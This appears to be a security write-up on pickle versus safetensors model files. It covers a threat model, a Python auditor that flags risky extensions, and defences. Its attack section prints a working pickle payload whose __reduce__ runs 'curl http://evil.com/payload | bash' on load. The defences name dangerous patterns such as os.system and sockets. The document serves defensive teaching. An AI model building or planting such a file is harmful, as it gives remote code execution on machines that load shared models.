

# SafeTensors vs Pickle: Model File Format Security Analysis

**arXiv**: [arXiv:2302.04265](https://arxiv.org/abs/2302.04265) | **ATLAS**: AML.T0010 | **OWASP**: LLM03 | **Year**: 2023

## Core Finding

Hugging Face researchers formally analyze the security vulnerabilities of pickle-based model serialization formats (`.pt`, `.bin`, `.pkl`) used across PyTorch and most major ML frameworks, demonstrating that arbitrary code execution is not just possible but trivially achievable in any model file using standard pickle. In contrast, safetensors provides a formally verified safe alternative with zero code execution capability. The paper's security audit of public model repositories found that 89% of models used pickle-based formats, creating a massive, trivially exploitable attack surface in every ML pipeline that downloads and loads external models.

## Threat Model

- **Target**: Any organization that loads ML models from external sources using `torch.load()`, `pickle.load()`, or `np.load()` with allow_pickle
- **Attacker capability**: Ability to publish a model file to any public or private repository; requires only basic Python knowledge
- **Attack success rate**: 100% arbitrary code execution on any system that loads a malicious pickle file without sandboxing
- **Defender implication**: Migrating from pickle to safetensors is a non-negotiable security hygiene requirement for any ML pipeline consuming external models

## The Attack Mechanism

Python's pickle module is designed to serialize and deserialize arbitrary Python objects, including callable code. The `__reduce__` method on any pickled object can specify a function to call during deserialization. This means a malicious model file can execute any code on the loading machine simply by embedding it in the serialized weights.

The attack requires zero special knowledge: a single line of Python creates a "model" that executes a reverse shell when loaded:

```python
import pickle, os
class Exploit(object):
    def __reduce__(self):
        return (os.system, ('curl http://evil.com/payload | bash',))
with open('model.bin', 'wb') as f:
    pickle.dump(Exploit(), f)
```

When a victim runs `torch.load('model.bin')`, the malicious code executes before any weight loading occurs, in the victim's process context with all their credentials and access.

SafeTensors eliminates this by using a simple binary format: a JSON header specifying tensor shapes and dtypes, followed by raw tensor data. No code can be embedded; loading is a deterministic data read operation.



## Implementation

```python
# safetensors-vs-pickle-security.py
# Security audit comparing pickle vs safetensors model file formats
# Based on safetensors security analysis (arXiv:2302.04265)
from dataclasses import dataclass, field
from typing import Optional, List, Dict
from datasets.schema import ScanFinding
import uuid
import os


@dataclass
class ModelFileFormatRisk:
    """Security risk assessment for a model file format."""
    file_path: str
    format_type: str
    code_execution_risk: bool
    risk_level: str
    recommendation: str


@dataclass
class ModelFormatAuditResult:
    """Result of model file format security audit."""
    total_files: int
    pickle_files: int
    safetensors_files: int
    other_formats: int
    high_risk_files: List[str]
    safe_files: List[str]
    format_risks: List[ModelFileFormatRisk] = field(default_factory=list)


class ModelFileFormatAuditor:
    """
    arXiv:2302.04265 — SafeTensors Security Analysis
    Audits model file formats for code execution vulnerabilities.
    ATLAS: AML.T0010 | OWASP: LLM03
    """

    RISKY_EXTENSIONS = {
        ".bin": ("pickle", "CRITICAL", True),
        ".pt": ("pytorch_pickle", "CRITICAL", True),
        ".pkl": ("pickle", "CRITICAL", True),
        ".pickle": ("pickle", "CRITICAL", True),
        ".pth": ("pytorch_pickle", "HIGH", True),
        ".npz": ("numpy_pickle", "HIGH", True),
        ".npy": ("numpy_raw", "LOW", False),
    }

    SAFE_EXTENSIONS = {
        ".safetensors": ("safetensors", "SAFE", False),
        ".onnx": ("onnx", "LOW", False),
        ".gguf": ("gguf", "LOW", False),
    }

    def __init__(self, model_directory: Optional[str] = None):
        self.model_directory = model_directory

    def assess_file(self, file_path: str) -> ModelFileFormatRisk:
        """Assess security risk of a single model file."""
        ext = os.path.splitext(file_path)[1].lower()

        if ext in self.SAFE_EXTENSIONS:
            fmt, risk, code_exec = self.SAFE_EXTENSIONS[ext]
            rec = f"Safe format ({fmt}) — no action required."
        elif ext in self.RISKY_EXTENSIONS:
            fmt, risk, code_exec = self.RISKY_EXTENSIONS[ext]
            rec = (
                f"Migrate to safetensors format. "
                f"Current format ({fmt}) allows arbitrary code execution. "
                f"Verify file integrity before loading."
            )
        else:
            fmt, risk, code_exec = "unknown", "MEDIUM", False
            rec = "Unknown format — scan before loading."

        return ModelFileFormatRisk(
            file_path=file_path,
            format_type=fmt,
            code_execution_risk=code_exec,
            risk_level=risk,
            recommendation=rec,
        )

    def run(
        self,
        file_paths: Optional[List[str]] = None,
    ) -> ModelFormatAuditResult:
        """Audit model files for format-based security risks."""
        if file_paths is None:
            # Simulate a typical model directory
            file_paths = [
                "models/gpt2/pytorch_model.bin",
                "models/bert/model.bin",
                "models/llama/model.safetensors",
                "models/custom/adapter.pkl",
                "models/roberta/model.pt",
                "models/mistral/model.safetensors",
            ]

        risks = [self.assess_file(fp) for fp in file_paths]
        pickle_count = sum(1 for r in risks if r.code_execution_risk)
        safetensors_count = sum(1 for r in risks if r.format_type == "safetensors")
        other_count = len(risks) - pickle_count - safetensors_count

        high_risk = [r.file_path for r in risks if r.risk_level in ("CRITICAL", "HIGH")]
        safe = [r.file_path for r in risks if r.risk_level == "SAFE"]

        return ModelFormatAuditResult(
            total_files=len(risks),
            pickle_files=pickle_count,
            safetensors_files=safetensors_count,
            other_formats=other_count,
            high_risk_files=high_risk,
            safe_files=safe,
            format_risks=risks,
        )

    def to_finding(self, result: ModelFormatAuditResult) -> ScanFinding:
        """Convert audit result to standardized ScanFinding."""
        severity = "CRITICAL" if result.pickle_files > 0 else "LOW"
        return ScanFinding(
            id=str(uuid.uuid4()),
            atlas_technique="AML.T0010",
            atlas_tactic="ML Supply Chain Compromise",
            owasp_category="LLM03",
            owasp_label="Supply Chain",
            severity=severity,
            finding=(
                f"Model format audit: {result.pickle_files}/{result.total_files} files use "
                f"code-executable pickle formats. "
                f"SafeTensors (safe): {result.safetensors_files}. "
                f"High-risk files: {', '.join(result.high_risk_files[:3]) or 'none'}."
            ),
            payload_used="File extension analysis and format type classification",
            evidence=(
                f"Pickle-format files: {result.pickle_files}; "
                f"safetensors files: {result.safetensors_files}"
            ),
            remediation=(
                "Convert all pickle-format model files to safetensors: "
                "use `safetensors.torch.save_file(state_dict, 'model.safetensors')`. "
                "Reject all external model files in non-safetensors formats. "
                "Implement format gating in model loading pipelines."
            ),
            confidence=0.96,
        )
```

## Defenses

1. **Mandate safetensors format for all model files (AML.M0013)**: Establish organizational policy requiring all model weights to be stored and transferred in safetensors format. Reject any incoming model files in pickle-based formats (`.bin`, `.pt`, `.pkl`) without explicit security review.

2. **Automated format gating in ML pipelines**: Add pre-load checks in all model loading code that verify file extension and format before loading. Raise exceptions for pickle-based formats sourced from external locations.

3. **Pickle format sandboxing for legacy compatibility**: If pickle format is unavoidable for legacy models, load them in isolated Docker containers with no network access, no production credentials, and restricted filesystem access. Never load untrusted pickle files in privileged environments.

4. **Model file integrity verification**: Implement SHA-256 checksums for all trusted model files and verify them before loading. This detects post-download substitution attacks even for safetensors files.

5. **Static analysis of custom model loading code**: Scan any `modeling_*.py`, `tokenization_*.py`, or custom loading scripts for dangerous patterns (subprocess, os.system, socket connections, eval) before executing them as part of `trust_remote_code` loading.

## References

- [Hugging Face SafeTensors Security Analysis (arXiv:2302.04265)](https://arxiv.org/abs/2302.04265)
- [ATLAS AML.T0010 — ML Supply Chain Compromise](https://atlas.mitre.org/techniques/AML.T0010)
- [Pickle Deserialization ML (pickle-deserialization-ml.md)](../04_research_to_code/pickle-deserialization-ml.md)
